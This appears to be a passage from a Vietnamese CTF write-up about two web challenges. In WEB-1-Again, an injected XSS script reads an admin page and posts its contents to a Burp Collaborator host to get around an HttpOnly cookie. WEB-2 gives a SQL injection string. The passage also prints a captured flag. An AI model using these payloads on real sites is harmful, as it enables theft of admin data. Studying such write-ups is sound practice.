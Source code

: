 >## **WEB-1-Again**

- Đối với challenge này cũng tương tự challenges web-1 nhưng điều khác biệt ở đây cookie đã được set flag httponly như vậy ta không thể lấy được cookie người dùng. Từ đó, tôi đã nghĩ ra cách làm thế nào mình có thể đọc được trang web admin bằng html. Và tôi thực hiện tương tự điều trên với payload như sau:

```js
<script>
   var req = new XMLHttpRequest();
   req.onload = handleResponse;
   req.open('get','http://167.172.80.186:9999/admin.php',true);
   req.send();
   function handleResponse() {
    var token = this.responseText;
   var changeReq = new XMLHttpRequest();
   changeReq.open('post', 'http://burp.collaborator.client', true);
   changeReq.send('data='+token);
};
</script>
```

- Và tôi đã nhận được flag : `ATTT{4c3076335f56407476303639}`

>## **WEB-2**

- Đối với bài này ta nhận biết được đây là một đề bài sql injection nhưng tôi đã thử như sau:

```
' or 1=1 -- -
```

- Nhưng đã không có một hiện tượng gì xảy ra nhưng tôi thấy trang web đã gợi ý cho tôi một điều `Reverse of name`. Điều này có nghĩa chúng ta nên dịch ngược lại câu lệnh SQL thì mới hoạt động và điều đó đã hoàn toàn hoạt động tốt.
